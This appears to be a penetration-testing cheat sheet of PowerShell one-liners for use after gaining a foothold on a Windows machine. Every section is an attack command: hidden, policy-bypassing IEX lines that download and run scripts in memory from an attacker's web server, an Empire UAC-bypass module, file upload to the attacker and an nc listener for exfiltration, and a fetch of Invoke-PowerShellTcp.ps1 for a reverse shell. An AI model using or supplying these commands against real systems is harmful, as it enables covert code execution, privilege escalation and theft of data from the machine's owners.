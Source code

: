 ## Start up WebServer

### Run script in memory:
```ps
powershell.exe -Exec Bypass -NoP -NonI -W Hidden IEX(New-Object System.Net.WebClient).DownloadString('http://<LocalIPAddress>:<PORT>/FILE')

#EXAMPLE
powershell.exe -Exec Bypass -NoP -NonI -W Hidden IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-BypassUAC.ps1');Invoke-BypassUAC -Command 'start powershell.exe'

# In PowerShell:
IEX((New-Object System.Net.WebClient).DownloadString('http://<LocalIPAddress>:<PORT>/FILE'))
```
-----------------------------------------------------------------------------------------------------------------------------------------------------

## Download File:
```ps
powershell.exe -Exec Bypass -NoP -NonI -W Hidden (New-Object System.Net.WebClient).DownloadFile('http://<LocalIPAddress>:<PORT>/FILE', 'LocalFile')

# In PowerShell:
(New-Object System.Net.WebClient).DownloadFile('http://<LocalIPAddress>:<PORT>/FILE', 'LocalFile')
```

-----------------------------------------------------------------------------------------------------------------------------------------------------
## Upload File:
```ps
powershell.exe -Exec Bypass -NoP -NonI -W Hidden (New-Object System.Net.WebClient).UploadFile('http://<LocalIPAddress>:<PORT>/FILE', 'LocalFile')

# In PowerShell:
(New-Object System.Net.WebClient).UploadFile('http://<LocalIPAddress>:<PORT>/FILE', 'LocalFile')
```

-----------------------------------------------------------------------------------------------------------------------------------------------------

## If you can't copy over SMB
### On Local Box
```sh
nc -lnvp 443 > Out.File
```
### On Windows Box
```ps
Invoke-RestMethod -Uri http://<LocalIPAddress>:443/<FILE> -Method Post -InFile <LocalFile>
```
-----------------------------------------------------------------------------------------------------------------------------------------------------

[+] EXTRA
## Upgrade PSH to 64-bit shell
```ps
%SystemRoot%\sysnative\WindowsPowerShell\v1.0\powershell.exe
C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.Webclient).DownloadString('http://<LocalIPAddress>:<PORT>/Invoke-PowerShellTcp.ps1')
#HIDDEN
C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe -Exec Bypass -NoP -NonI -W Hidden IEX(New-Object Net.Webclient).DownloadString('http://<LocalIPAddress>:<PORT>/Invoke-PowerShellTcp.ps1')
```
